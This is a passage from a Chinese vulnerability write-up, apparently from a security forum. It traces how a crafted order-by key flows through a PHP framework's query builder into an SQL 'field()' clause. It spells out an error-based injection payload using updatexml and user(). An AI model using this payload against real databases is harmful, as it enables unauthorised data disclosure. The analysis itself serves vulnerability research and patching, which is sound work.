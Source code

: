 这里重点是 foreach 循环对 $val 的值做处理，但是这个 val 的值不用管，最后拼接 sql 语句是 key 的值，val 在 key 后面，可以用注释符注释掉进入 parseDataBind () 函数！\[\]  
[![](assets/1710900891-acf59e41f9dd3a08236ec4cc332e318a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304105832-15b55d94-d9d3-1.png)

这里最后返回字符串，对传入的 key 的前面拼接了字符串::data**id,111)|updatexml(1,concat(0x3a,user()),1)#0  
然后回到 parseOrderField () 函数  
return 'field(' . $this->parseKey($query, $key, true) . ',' . implode(',', $val) . ')' . $sort;  
调用 Mysql 的 parseKey () 函数  
拼接了一对反引号在 key 变量两头:id,111)|updatexml (1,concat (0x3a,user ()),1)# 最后返回:field (id,111)|updatexml (1,concat (0x3a,user ()),1)#,:data** id,111)|updatexml (1,concat (0x3a,user ()),1)#0) 然后回到了 Builer.php 的 parseOrder () 函数

[![](assets/1710900891-478b5fac3bc5f00d79f7b0b434f3b7a1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304110220-9decf76c-d9d3-1.png)
